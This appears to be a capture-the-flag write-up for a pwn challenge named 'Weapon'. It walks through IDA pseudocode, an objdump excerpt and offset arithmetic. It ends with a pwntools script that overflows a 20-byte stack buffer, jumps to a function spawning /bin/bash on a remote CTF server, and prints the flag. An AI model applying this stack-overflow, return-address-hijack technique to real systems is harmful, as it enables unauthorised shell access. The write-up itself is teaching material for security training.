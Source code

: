 # **Weapon**

Pseudo code from IDA:

```c++
int arsenal()
{
  return run_cmd("/bin/bash");
}
int townsquare()
{
  char v1[20]; // [esp+0h] [ebp-18h] BYREF

  puts("You wanna open the arsenal. Tell me the passphrase!");
  printf("Your current location is townsquare with the address %p \n", townsquare);
  return __isoc99_scanf((int)"%s", (int)v1);
}
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setup();
  townsquare();
  return 0;
}
```

With the ASLR on from server, giving `townsquare`'s address can help us to compute the location of `arsenal` where the `/bin/bash` is because I can't just call the function by looking in the address in IDA.

This is the objdump of `weapon`:

```objdump
000012d6 <arsenal>:
    12d6:       f3 0f 1e fb             endbr32
    12da:       55                      push   %ebp
    12db:       89 e5                   mov    %esp,%ebp
    12dd:       83 ec 08                sub    $0x8,%esp
    12e0:       e8 9c 00 00 00          call   1381 <__x86.get_pc_thunk.ax>
    12e5:       05 d7 2c 00 00          add    $0x2cd7,%eax
    12ea:       83 ec 0c                sub    $0xc,%esp
    12ed:       8d 80 4c e0 ff ff       lea    -0x1fb4(%eax),%eax
    12f3:       50                      push   %eax
    12f4:       e8 b2 ff ff ff          call   12ab <run_cmd>
    12f9:       83 c4 10                add    $0x10,%esp
    12fc:       90                      nop
    12fd:       c9                      leave
    12fe:       c3                      ret

000012ff <townsquare>:
    12ff:       f3 0f 1e fb             endbr32
    1303:       55                      push   %ebp
    1304:       89 e5                   mov    %esp,%ebp
    1306:       53                      push   %ebx
    1307:       83 ec 14                sub    $0x14,%esp
```

Let's do some math: 0x12ff - 0x12d6 = 41. Ahhh I can call `arsenal` by its distance to `townsquare` now thanks to the give from `townsquare`.
Overwritting `var_18` (0x18) and `var_4` (0x4) then I can get to arsenal.

```ida
public townsquare
townsquare proc near

var_18= byte ptr -18h
var_4= dword ptr -4
```

The exploit code:

```python
from pwn import *
import time

r = remote("61.28.237.24",30201)
r.recvuntil('the address ')
address=int(r.recv(),16) #get the address
print(address)
sleep(0.5)
payload= "A"*28+p32(address-41)

r.send(payload)
r.interactive()

#HCMUS-CTF{you_know_how_to_compute_location}
```

[**Turn Back**](README.md)